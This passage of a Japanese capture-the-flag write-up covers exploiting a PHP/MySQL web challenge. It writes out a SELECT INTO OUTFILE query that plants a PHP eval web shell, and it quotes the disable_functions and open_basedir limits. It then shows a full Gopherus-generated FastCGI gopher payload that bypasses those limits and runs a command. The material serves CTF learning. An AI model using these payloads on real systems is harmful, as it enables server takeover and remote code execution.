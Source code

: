 これを `did_you_try_last_year_link.php` に投げると、以下のような内容を含む `/etc/mysql/mysql.conf.d/mysqld.cnf` が得られました。

```
︙
tmpdir        = /tmp
# You can get /tmp/test1 folder in URL/tmp_hell ;)
︙
```

`/tmp/test1/(ファイル名)` に書き込むと `http://(URL)/tmp_hell/(ファイル名)` にブラウザからアクセスすることができるようです。WebShell をアップロードしてみましょう。`select "<?php eval($_GET[0]);" into outfile '/tmp/test1/nekoneko.php';` を実行し、`/tmp_hell/nekoneko.php?0=var_dump(0);` にアクセスすると `int(1)` が表示されました。

`phpinfo();` を実行してみると、`disable_functions` が次のように設定されていることが確認できました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,proc_open,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,stream_socket_sendto,stream_socket_client,pcntl_async_signals,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir
```

また、`open_basedir` が以下のように設定されていました。

```
/var/www/html:/tmp/test1
```

例のごとく、これらの制限を回避して `/readFlag` を実行すればよいのでしょう。これらの制限から思い出されるのは 0CTF/TCTF 2019 Quals の Wallbreaker Easy です。[Balsn の write-up](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy) を参考に `/var/run/php/` 下を `glob://` で確認すると、`/var/run/php/php7.0-fpm.sock` の存在が確認できました。これを経由して FastCGI を使えば、`disable_functions` と `open_basedir` の制限を回避できるはずです。

FastCGI 向けのペイロードを Gopherus で生成します。

```
$ ./gopherus.py --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/config.php
Terminal command to run:  /readFlag

Your gopher link is ready to do SSRF: 

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH61%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%18SCRIPT_FILENAME/var/www/html/config.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3D%04%00%3C%3Fphp%20system%28%27/readFlag%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------
```
